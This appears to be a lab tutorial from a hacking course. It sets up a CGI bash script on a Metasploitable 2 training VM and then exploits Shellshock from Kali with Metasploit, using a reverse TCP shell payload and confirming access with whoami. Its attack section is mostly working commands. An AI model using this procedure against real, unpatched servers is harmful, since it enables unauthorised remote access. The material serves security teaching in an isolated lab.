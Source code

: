 # Hacking I (unprivileged permissions) 

## Todo 1: Prepare the target (metasploitable 2) 

```
# metasploitable 2 should be up and running 

# Step 1:

cd /usr/lib/cgi-bin
vi hello.sh
# --> content (#! /bin/bash will be the first line 

#! /bin/bash
echo "Content-type: text/html"
echo ""
echo "Hello world!"

# Step 2 (permissions)
chmod 755 hello.sh 

# Step 3 (test in browser of machine that can reach you metasploitable2 machine
http://192.168.10.x/cgi-bin/hello.sh 
```

## Todo 2: Proceed on kali 

```
# Connect through ssh or use desktop -> terminal as root
msfconsole 
msf>search shellshock 
msf>use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf.....>options

# We need to set the path and the ip of the target (metaploitable 2) here.
msf.....>set rhost 192.168.10.198
msf.....>set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

# Now we need to decide for a payload 
msf.....>show payloads 
msf.....>set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

# let again check the options 
msf.....>options 

# IMPORTANT: If you have 2 network interfaces, you need to set the right one 
msf.....>set lhost 192.168.10.169

# now let's try if it would work 
msf....>check 

# now let's exploit
msf....>exploit

# Try to get some info now 
whoami 

# Yes, we are successful
```

## Ref: (normal privileges)

  * https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Ref: (root privileges)

  * https://samsclass.info/124/proj14/p18xLPE.htm
  
